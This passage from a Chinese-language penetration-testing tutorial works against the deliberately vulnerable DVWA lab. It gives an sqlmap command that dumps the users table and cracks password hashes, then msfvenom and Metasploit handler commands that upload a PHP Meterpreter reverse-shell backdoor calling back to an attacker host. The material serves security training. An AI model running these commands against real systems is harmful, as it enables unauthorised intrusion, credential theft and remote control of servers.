在这个命令中，我们正在查找与`dvwa`数据库（`-D dvwa`相关的列（`--columns`。注意，在输出中，我们有一个有趣的表，它被列为`users`，列有`firstname`*、*`lastname`*、*`userid`和`password`：

![](assets/23bb7147-1dae-41e9-a9db-24fae21e5e17.png)

图 10：`dvwa`数据库中用户表的列

现在我们已经确定了一个有趣的表，让我们继续并转储该表，看看是否能够使用字典攻击破解哈希。

2.  通过使用以下命令，我们将转储所有表的表项：

```
sqlmap -u "http://192.168.34.137/dvwa/vulnerabilities/sqli/id=1&Submit=Submit" --cookie="security=low; PHPSESSID=94488715a0d380b4abcf6253fbfced25" -D dvwa --dump
```

在这个命令中，我们使用`--dump`选项查看`dvwa`数据库中所有表的所有条目。当命令运行时，`sqlmap`将询问是否应该使用字典攻击来尝试破解密码。通过选择`yes`选项，`sqlmap`将提示输入字典文件。使用内置的字典文件就足够了。注意产出；您将看到，我们有被转储的用户表，以及所有详细信息，包括每个用户的密码，以哈希形式和明文形式：

![](assets/23b1e9dd-7073-456b-9b67-3a5873a460ad.png)

图 11：使用 Sqlmap 转储的用户详细信息

在本节中，我们已经了解了 Sqlmap 的有效性。使用此工具，您可以在渗透测试期间遇到时间限制时自动执行一些攻击。我们专门研究了如何执行信息收集、枚举表和提取用户凭据。Sqlmap 具有更多的特性，因此它是渗透测试工具包中的必备工具。

# 使用 PHP 创建后门

让我们来看看使用恶意的 To.t0 文件来创建一个后门到 Web 应用程序的底层操作系统。在这里，我们将使用 DVWA，因为它允许我们上传文件。

确保 DVWA 的安全级别设置为低。默认登录用户名为`admin`，密码为`password`。

我们将使用 MSFvenom 创建一个 PHP 文件，该文件将为我们提供一个反向 shell。用于侦听连接的处理程序将在 Metasploit 中设置。这些步骤概述如下：

1.  在 Kali Linux 内的终端窗口中，输入以下命令以创建恶意 PHP 后门：

```
msfvenom -p php/meterpreter_reverse_tcp LHOST=<Attacker IP Address> LPORT=<Port to connect to> -f raw > msfv-shell.php
```

在该命令中，我们将有效载荷（`-p`定义为`php/meterpreter_reverse_tcp`，然后定义攻击机器的 IP 地址（`LHOST`和反向外壳将建立在的端口（`LPORT`。我们没有使用任何编码器；我们只需要原始的`php`文件（`-f raw`。文件名应为`msfv-shell.php`（`> msfv-shell.php`。

2.  一旦 PHP 文件生成，我们将把它上传到 DVWA。登录到 DVWA 并导航到左侧的上载部分。点击浏览。。。并导航到创建`msfv-shell.php`文件的位置。然后，选择它。文件上传后，请注意上传到的位置：

![](assets/876555ff-ef13-4388-a779-5c047f645c44.png)

图 12:MSFVenom 恶意 PHP 文件上传

3.  在连接到上传的 PHP 页面的位置之前，我们需要在 Metasploit 中设置一个处理程序。为此，我们将使用`msfconsole`命令打开 Metasploit 框架。
4.  加载 Metasploit 框架后，我们将使用以下命令创建处理程序：

```
use exploit/multi/handler
set PAYLOAD php/meterpreter_reverse_tcp
set LHOST <LHOST value>
set LPORT <LPORT value>
exploit
```
